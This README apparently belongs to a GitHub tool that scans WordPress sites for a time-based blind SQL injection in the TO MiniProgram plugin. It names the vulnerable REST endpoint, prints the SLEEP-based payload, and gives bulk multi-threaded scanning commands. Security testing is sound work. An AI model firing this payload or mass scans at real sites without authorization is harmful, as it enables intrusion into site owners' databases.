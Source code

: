 # TO MiniProgram SQLi Scanner
![Banner](https://imgur.com/a/O2JAO7D)*Replace with actual banner image*

A specialized SQL injection scanner targeting WordPress sites with the TO MiniProgram plugin vulnerable endpoint.

## Features

- 🚀 **High-performance scanning** with multi-threading support
- 🎯 **Accurate detection** of time-based blind SQL injection vulnerabilities
- 📋 **Multiple target support** (single URL or file with URL list)
- 📊 **Clear reporting** with color-coded results
- 💾 **Automatic saving** of vulnerable targets to `vulnerable.txt`

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/HackfutSec/SQLwp.git
   cd SQLwp
   ```

2. Install required dependencies:
   ```bash
   pip3 install -r requirements.txt
   ```

## Usage

### Basic scan (single target)
```bash
python3 scanner.py -u http://target-site.com -d 5
```

### Bulk scan (from file)
```bash
python3 scanner.py -l targets.txt -t 10 -d 5
```

### Options
| Option | Description | Default |
|--------|-------------|---------|
| `-u`, `--url` | Single target URL | - |
| `-l`, `--list` | File containing list of target URLs | - |
| `-d`, `--delay` | Sleep time for time-based detection (in seconds) | 5 |
| `-t`, `--threads` | Number of concurrent threads | 5 |

## Technical Details

### Vulnerability Tested
The scanner checks for SQL injection in the TO MiniProgram WordPress plugin's endpoint:
```
/wp-json/watch-life-net/v1/comment/getcomments
```

### Payload Used
The scanner sends a time-based blind SQL injection payload:
```sql
DESC,(SELECT(1)FROM(SELECT(SLEEP(5)))a)--
```

### Detection Logic
- The scanner measures response time
- If response time exceeds the specified delay, vulnerability is confirmed

## Output Example

![Sample Output](https://i.imgur.com/ABC5678.png) *Replace with actual output screenshot*

## Ethical Use

⚠️ **This tool is for authorized security testing only.**  
⚠️ **Always obtain proper authorization before scanning any website.**  
⚠️ **The maintainers are not responsible for misuse of this tool.**

## Contribution

Contributions are welcome! Please open an issue or pull request for:
- Bug fixes
- Feature enhancements
- Documentation improvements

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Contact

- GitHub: [@HackfutSec](https://github.com/HackfutSec)
- For security concerns: *HackfutSec404@proton.com*

---

🔒 **Happy (ethical) hacking!** 🔒

